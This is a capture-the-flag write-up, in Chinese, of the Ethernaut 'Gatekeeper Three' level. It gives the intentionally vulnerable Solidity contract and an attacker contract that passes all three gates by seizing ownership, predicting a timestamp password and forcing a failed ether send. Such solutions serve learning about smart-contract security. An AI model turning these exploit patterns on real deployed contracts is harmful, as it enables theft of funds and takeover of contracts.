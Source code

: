 # Gatekeeper Three

## 题目

要求：成功调用`enter()`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
  GatekeeperThree public target;
  address public trick;
  uint private password = block.timestamp;

  constructor (address payable _target) {
    target = GatekeeperThree(_target);
  }
    
  function checkPassword(uint _password) public returns (bool) {
    if (_password == password) {
      return true;
    }
    password = block.timestamp;
    return false;
  }
    
  function trickInit() public {
    trick = address(this);
  }
    
  function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
      target.getAllowance(password);
    }
  } // 没有被调用过，没用的函数
}

contract GatekeeperThree {
  address public owner;
  address public entrant;
  bool public allowEntrance;

  SimpleTrick public trick;

  function construct0r() public {
      owner = msg.sender;
  }

  modifier gateOne() { 
    require(msg.sender == owner); // 直接调用construct0r即可
    require(tx.origin != owner); // 要用合约攻击
    _;
  }

  modifier gateTwo() {
    require(allowEntrance == true);
    _;
  }
  // 1.创建一个trick：createTrick()
  // 2.伪随机数，调用getAllowance()

  modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }
  // 1.给这个合约转一点钱
  // 2.owner是攻击合约，它没有fallback和receive来接收代币

  function getAllowance(uint _password) public {
    if (trick.checkPassword(_password)) { 
        allowEntrance = true;
    }
  }

  function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
  }

  function enter() public gateOne gateTwo gateThree {
    entrant = tx.origin;
  }

  receive () external payable {}
}
```

## 分析

常规，思路写在了题目的代码中

## 解题

```solidity
pragma solidity 0.8.17;

contract attakcer{
  GatekeeperThree instance;

  // 0xdc3bd7142542B9f35F8A22fC066645eA602fe2A3
  function attack(GatekeeperThree _addr) public payable {
    instance = _addr;

    // gate01
    instance.construct0r();

    // gate02
    instance.createTrick();
    instance.getAllowance(block.timestamp);

    // gate03
    // 0.001 ether + 1 wei = 1000000000000001
    payable (address(instance)).transfer(1000000000000001);

    // complete
    instance.enter();
  }
}
```

调用过程

![](https://moe.photo/images/2023/07/19/image-20230719214518636.png)

成功

![](https://moe.photo/images/2023/07/19/image-20230719214534909.png)

小插曲：当我将攻击逻辑写道constructor的时候，一直失败。原因：构造器是payable，可以接收代币，因为还在创建constructor状态

![](https://moe.photo/images/2023/07/19/image-20230719214632521.png)
